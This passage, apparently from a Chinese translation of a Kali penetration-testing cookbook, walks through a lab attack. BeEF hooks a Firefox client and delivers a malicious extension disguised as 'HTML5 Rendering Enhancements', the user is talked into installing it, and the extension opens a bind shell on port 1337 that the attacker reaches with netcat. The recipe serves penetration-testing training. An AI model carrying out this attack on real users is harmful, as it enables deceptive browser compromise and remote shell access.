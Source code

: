 ## 9.5 使用 BeEF 攻击

在之前的章节中，我们看到了 BeEF（浏览器利用框架）能够做什么。这个秘籍中，我们会使用它来发送而已浏览器扩展，当它执行时，会向我们提供绑定到系统的远程 shell。

### 准备

我们需要为这个秘籍在 Windows 客户端安装 Firefox。

### 操作步骤

1.  开启 BeEF 服务。在 root 终端下，输入下列命令：

    ```
    cd /usr/share/beef-xss/ 
    ./beef
    ```
    
2.  我们会使用 BeEF 的高级演示页面来勾住我们的客户端。在 Windows 客户端 VM 中，打开 FIrefox 并浏览`http://192.168.56.1:3000/demos/butcher/index.html`。

3.  现在，登录 BeEF 的面板（`http://127.0.0.1:3000/ui/panel`）。我们必须在这里查看新勾住的浏览器。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-5-1.jpg)
    
4.  选项被勾住的 FIrefox 并访问` Current Browser | Commands | Social Engineering | Firefox Extension (Bindshell)`。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-5-2.jpg)
    
    由于它被标为橙色（命令模块对目标工作，但是可能对用户可见），我们可能需要利用社会工程来使用户接受扩展。
    
5.  我们需要发送叫做`HTML5 Rendering Enhancements`的扩展给用户，它会通过 1337 端口打开 shell。点击`Execute`来加载攻击。

6.  在客户端，Firefox 会询问许可来安装插件并接受它。

7.  之后，如果 Windows 防火墙打开了，它会询问许可来让插件访问网络，选择`Allow access `。

    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-5-3.jpg)
    
    最后两个步骤高度依赖于社会工程，说服用户信任这个插件值得安装和授权。
    
8.  现在，我们应该拥有了等待连接 1337 端口的的客户端。在 Kali 中打开终端并连接到它（我们这里是 192.168.56.102）。

    ```
    nc 192.168.56.102 1337
    ```
    
    ![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali-web-pentest-cb/img/9-5-4.jpg)
    
    现在我们就连接到了客户端并能够在里面执行命令。
    
### 工作原理

一旦客户端被 BeEF 勾住，它就会像浏览器发送请求（通过`hook.js`）来下载扩展。一旦下载完成，就取决于用户是否安装。

像之前所说的那样，这个攻击高度依赖用户来完成关键步骤，这取决于我们通过社会工程手段说服用户，使之相信必须安装扩展。这可以通过页面上的文本来完成，比如说解锁一些浏览器的实用功能非常必要。
